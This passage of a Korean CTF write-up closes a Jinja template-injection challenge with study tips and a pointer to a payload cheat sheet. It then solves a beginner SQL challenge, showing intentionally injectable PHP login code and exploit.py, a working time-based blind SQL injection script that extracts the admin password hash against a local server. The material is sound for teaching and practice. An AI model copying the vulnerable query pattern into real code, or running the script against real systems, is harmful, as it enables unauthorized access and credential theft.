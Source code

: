 ### 블로그 포스트 작성자의 추가적인 코멘트

이러한 기본적인 ssti 형식의 문제는 보통 `render_template_string`같이 템플릿을 렌더링해주는 함수를 직접적으로 호출하고, 해당 함수 내로 우리의 입력을 바로 전달할 수 있습니다. 이후에는 가지고 계신 지식으로 간단히 exploit을 할 수 있는데, [기본 ssti 공부](https://www.linkedin.com/pulse/studying-ssti-jinja2-python-rce-shell-luiz-henrique-amaral-pereira/)를 위한 사이트를 훑어보시면 좋습니다. 또는 보통 [ssti 치트 시트](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)으로 직접적으로 해결되는 경우가 많으니 해당 치트 시트의 페이로드들이 어떤식으로 작동하는지 살펴보시는 것도 좋은 방법입니다. <br>
개인적인 의견으로는 그냥 치트 시트를 사용해서 문제를 해결하기만 하는 건 성장에 큰 도움이 되지 않는다고 생각합니다. 반드시 이런 기본적인 문제들을 통해서 **이해**하는 과정을 거치시면 좋겠습니다!

`python`에 대한 지식과 `jinja template ssti`에 대한 지식이 있으면 쉽게 해결할 수 있는 문제였습니다.

---

## for_beginner-SQL

**출제자 책정 난이도**: Easy

```php
$userid = $_GET['userid'];
$password = $_GET['password'];

if(isset($userid) && isset($password)) {
    $query = "SELECT userid, password FROM user WHERE userid = '${userid}' and password = '".md5($password)."'";
    try {
        $result = $mysqli->query($query);
        $data = mysqli_fetch_array($result);
        if(isset($data) && $data[0] == "admin" && $data[1] === md5($password)){
            die($flag);
	    } else {
		    die("Wrong...");
	    }
    } catch(Exception $e) {
    }
} else {
    show_source(__FILE__);
}
```

전형적인 sqli 문제다.
admin의 평문 password를 맞게 구하여 로그인하면 플래그를 얻을 수 있다.

이때 sqli의 성공 여부를 확인할 수 없기 때문에 time based sqli를 해주면 된다.

**exploit.py**

```py
import requests
import time
SERVER = "http://localhost:2023"

a = "1234567890abcdef"

pw = ""
for i in range(1,33):
    for j in a:
        url="http://localhost:2023/index.php?userid=admin%27and%20substr(password,"+str(i)+",1)=\""+str(j)+"\"%20and%20sleep(2)%23&password=1"
        starttime = time.time()
        res = requests.get(url)
        endtime = time.time()
        res = res.text
        if endtime-starttime>2:
            pw+=j
            print(pw)
            break
```